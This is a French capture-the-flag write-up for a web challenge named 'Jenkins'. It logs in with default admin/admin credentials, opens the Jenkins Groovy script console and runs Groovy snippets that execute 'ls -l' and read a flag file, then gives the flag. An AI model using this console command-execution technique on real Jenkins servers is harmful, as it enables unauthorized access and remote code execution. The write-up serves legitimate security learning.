

* * *
# Jenkins
> (Web, 400 points )
---
## Challenge :
> http://51.91.120.156:8085

Une fois qu'on accède au lien du challenge, on aperçoit l'application **java Jenkins**. **Jenkins est un outil open source d'intégration continue** qui fonctionne dans un conteneur de servlets tel qu’Apache Tomcat, ou en mode autonome avec son propre serveur Web embarqué. L'objectif de ce challenge à d'arriver à **exploiter les vulnérabilités de cette application**, pour retrouver le ```flag```. Les recherches qu'on aura à effectuer vont donc se restreindre à des **vulnérabilités d'exécution de commande système** sur le serveur hébergeant l'application **Jenkins**. Après quelques recherches nous retrouvons cet article https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/, qui détaille de long en large les différentes méthodes pouvant être utilisé pour mener à bien une **injection de commande système** sur une application **JAVA**. Avant tout, connectons-nous sur l'application avec les ```credentials``` : ```admin``` pour **username** et ```admin``` pour **password**. Après ceci, passons à l'exploitation. Pour commencer : 

1. Chargeons cette adresse url http://51.91.120.156:8085/script


2. Pour tester une injection de comande, écrivons ce bout de code dans le champ de texte :
```
def cmd = "ls -l".execute();
println("${cmd.text}");
```

On constate que l'injection marche à merveille. En se mettant à la recherche du ```flag```, on fini par retrouver le répertoire dans lequel il se trouve.
```
def cmd = "cat /var/jenkins_home/flag.txt".execute();
println("${cmd.text}");
```


```Flag ```: **CTF_ThatWasUnbreakableIThought**
